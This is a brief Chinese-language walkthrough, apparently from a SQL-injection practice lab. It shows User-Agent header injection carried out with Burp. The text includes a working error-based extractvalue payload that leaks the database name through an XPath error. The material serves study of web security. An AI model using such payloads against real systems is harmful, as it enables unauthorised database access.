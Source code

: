 ```
admin
1


出现user-agent
```



```
admin
1'
文字变红，显示失败。
```





看其他人的帖子，说是username和password都不能注入

尝试从user-agent注入



用burp抓包

```
admin
1

修改user-agent
' and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '1'='1

出现xpath error
爆出security数据库

后面为一般步骤。
```

